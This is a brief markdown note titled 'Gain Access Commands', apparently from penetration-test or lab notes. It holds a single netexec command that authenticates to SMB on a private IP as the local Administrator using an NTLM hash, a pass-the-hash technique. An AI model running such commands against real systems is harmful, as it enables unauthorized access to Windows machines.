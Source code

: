 
# Gain Access Commands




### 10.9.20.13
```
netexec smb 10.9.20.13 -u Administrator -H 4e63f2ecad6ac1c809564e26ea764999 --local-auth

```


